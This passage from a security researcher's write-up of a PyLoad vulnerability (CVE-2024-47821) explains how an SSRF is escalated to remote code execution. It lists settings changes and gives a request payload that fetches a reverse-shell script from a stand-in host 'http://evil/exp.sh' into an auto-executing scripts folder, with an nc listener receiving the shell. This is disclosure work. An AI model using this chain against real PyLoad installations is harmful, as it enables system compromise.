 ## Escalating the SSRF to Remote Code Execution
The next step in my journey to find remote code execution was to somehow execute the reverse shell script. There are a few other CVEs in PyLoad where a file was downloaded to certain folders to have them execute or render - leading to remote code execution. However, as a fix for these issues, certain paths could not be set as the download folder.

Purely by chance, while I was staring at PyLoad logs, I found a log line that said "No script found under folder download_finished". This implied that a user can specify scripts that are run when downloads are finished. Looking for this folder on my system, I came across a folder `~/.pyload/scripts` which has many subfolders for different triggers such as `download_finished`, `package_processed` and so on.

I added a script to the `download_finished` folder and then sent a download request to `/flashgot`. Once the file was downloaded, the script I added to `download_finished` executed! From there, the path to remote code execution was pretty straighforward. I had to change a few PyLoad settings:

1. Change the download folder to `~/.pyload/scripts`
3. Change permissions of downloads: on
4. Permission mode for downloaded files: 0744

![download-location](/cve-2024-47821-1.png)

I also changed my request to `/flashgot` to set the `package` to `download_finised` so that the script is downloaded to the `download_finished` folder.

```Python
data = {
    "package": "download_finished", 
    "passwords": "optional_password", 
    "urls": "http://evil/exp.sh",
    "autostart": 1,
}
```

Sending this request once downloads `exp.sh` (which is a bash reverse shell) to the `download_finished` folder.

![download-finished](/cve-2024-47821-2.png)

Sending it a second time downloads `exp.sh` again into the folder, but crucially also executes the existing `exp.sh` script. 

![script-exec](/cve-2024-47821-3.png)

I set up a simple `nc` listener where I received a reverse shell once `exp.sh` was executed. Remote code execution acheived, system compromised.

![rce](/cve-2024-47821-4.png)

## A small word regarding my setup
A while back I had purchased a Raspberry Pi - and as with quite a few things I buy - I played with it for a week or two and then it just sat at my desk (in that one week I installed pihole on it - so it is not completely useless). So on a whim, I decided to install PyLoad on the Pi instead of my laptop. This turned out to be an important decision - as this led me to discovering the `local_check` function. If I was testing PyLoad on my laptop itself, the `local_check` would not have triggered. I might have found the other issues anyway, but bypassing the `local_check` check makes the finding "complete".
